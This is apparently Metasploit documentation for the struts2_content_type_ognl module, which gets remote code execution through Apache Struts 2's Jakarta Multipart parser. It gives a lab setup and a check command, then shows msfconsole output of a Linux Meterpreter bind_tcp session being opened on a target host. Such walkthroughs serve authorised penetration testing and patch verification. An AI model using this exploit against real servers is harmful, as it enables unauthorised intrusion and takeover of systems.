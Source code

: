 ## Vulnerable Application

`struts2_content_type_ognl` is a module that exploits Apache Struts 2's Jakarta Multipart
parser, which makes it possible to perform arbitrary code execution with a malicious HTTP
`Content-Type` value.

Apache Struts version 2.3.5 - 2.3.31, and 2.5 - 2.5.10 are vulnerable.

You can download these versions here with any version of Apache Tomcat:

http://archive.apache.org/dist/struts/

You will also need to install a Struts 2 showcase application, which can be found here:

https://mvnrepository.com/artifact/org.apache.struts/struts2-showcase

## Options

**TARGETURI**

The path to a struts application action

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is
set as optional.

## Scenarios

**The Check Command**

The `struts2_content_type_ognl` module comes with a check command that can effectively check
if the remote host is vulnerable or not. To use this, configure the msfconsole similar to the
following:

```
set VERBOSE true
set RHOST [IP]
set TARGETURI [path to the Struts app with an action]
```

When the module is in verbose mode, the `check` command will try to tell you the OS information,
and whether or not the machine is vulnerable. Like this:

```
msf exploit(struts2_content_type_ognl) > check

[+] Victim operating system: Linux
[+] 10.1.11.11:8080 The target is vulnerable.
```

**Exploiting the Host**

After identifying the vulnerability on the target machine, you can try to exploit it.

The exploit supports mainly two platforms: Windows and Linux. To see a list of available payloads,
try to do `show payloads`, and pick one. The following example demonstrates us exploiting a
vulnerable Ubuntu host:

```
msf exploit(struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.1.11.11          yes       The target address
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/bind_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LPORT         4444             yes       The listen port
   RHOST         10.1.11.11       no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf exploit(struts2_content_type_ognl) > run

[*] Started bind handler
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
{"Server"=>"Apache-Coyote/1.1",
 "Set-Cookie"=>"JSESSIONID=548FF051466E6C1F3AAE814E385057DE; Path=/; HttpOnly",
 "Content-Type"=>"text/html;charset=UTF-8",
 "Content-Length"=>"6335",
 "Date"=>"Tue, 14 Mar 2017 21:04:06 GMT"}
[*] Sending stage (1495599 bytes) to 10.1.11.11
[*] Meterpreter session 5 opened (192.168.1.11:50671 -> 10.1.11.11:4444) at 2017-03-14 16:04:36 -0500

meterpreter >
```
